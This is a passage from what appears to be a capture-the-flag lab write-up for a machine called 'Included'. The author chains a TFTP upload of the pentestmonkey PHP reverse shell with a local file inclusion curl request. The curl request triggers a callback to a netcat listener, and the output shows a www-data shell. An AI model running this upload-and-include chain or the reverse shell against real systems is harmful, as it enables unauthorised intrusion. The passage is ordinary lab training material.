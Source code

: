 It's running on UDP port 69.

We can use `tftp` to upload a reverse shell, then execute it with a payload delivered via the LFI vulnerability we found earlier.

First we need a PHP reverse shell, we can make one ourselves, or we can find one online. [This](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) one seems to have potential.

Save the file by right-clicking, then 'Save Page As...' and save it as `shell.php`.

![](Pasted%20image%2020220417182958.png)

Edit the IP and Port fields in the reverse shell script.

![](Pasted%20image%2020220417183945.png)

Now we can upload it to the server using `tftp`.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ tftp 10.129.95.185
tftp> put shell.php
Sent 5683 bytes in 0.8 seconds
```

The file is uploaded, now for the execution part of it.

First, we need to set up netcat to catch the incoming connection.

```console 
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

And then execution of the script via `curl`, it would work just as well via the browser URL field.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.129.95.185/?file=/var/lib/tftpboot/shell.php
```

In the netcat terminal, we get an incoming connection. We are in!

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.95.185] 45574
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 16:46:24 up  1:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
